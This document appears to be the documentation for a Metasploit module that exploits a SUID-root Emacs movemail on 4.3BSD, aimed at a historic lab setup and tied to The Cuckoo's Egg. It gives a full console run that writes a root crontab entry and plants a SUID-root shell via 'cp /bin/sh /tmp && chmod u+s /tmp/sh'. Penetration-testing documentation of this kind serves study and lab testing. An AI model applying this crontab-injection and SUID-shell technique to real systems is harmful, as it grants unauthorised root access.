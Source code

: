 ## Vulnerable Application

### Description

This module exploits a SUID installation of the Emacs `movemail` utility
to run a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.

The vulnerability is documented in Cliff Stoll's book *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   /usr/lib/crontab.local
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**MOVEMAIL**

Set this to the absolute path to the SUID-root `movemail` executable.

**CMD**

If your payload is `cmd/unix/generic` (suggested default), set this to
the command you want to run as root. The provided default will create a
SUID-root shell at `/tmp/sh`.

## Scenarios

### 4.3BSD

```
msf5 > use exploit/unix/local/emacs_movemail
msf5 exploit(unix/local/emacs_movemail) > options

Module options (exploit/unix/local/emacs_movemail):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   MOVEMAIL  /etc/movemail    yes       Path to movemail
   SESSION                    yes       The session to run this module on.


Payload options (cmd/unix/generic):

   Name  Current Setting                       Required  Description
   ----  ---------------                       --------  -----------
   CMD   cp /bin/sh /tmp && chmod u+s /tmp/sh  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   /usr/lib/crontab.local


msf5 exploit(unix/local/emacs_movemail) > set session -1
session => -1
msf5 exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[-] Current shell is unknown
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root /etc/movemail found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/emacs_movemail) >
```
